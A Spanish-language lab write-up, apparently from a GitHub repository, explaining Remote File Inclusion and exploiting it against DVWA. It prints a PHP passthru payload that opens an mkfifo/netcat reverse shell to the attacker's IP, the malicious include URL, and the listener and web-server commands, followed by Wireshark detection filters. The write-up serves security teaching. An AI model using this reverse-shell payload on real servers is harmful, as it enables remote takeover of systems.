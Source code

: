 La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

![](capturas/lfi-vs-rfi.png)


En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

-----------------------------------------------------------
Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```
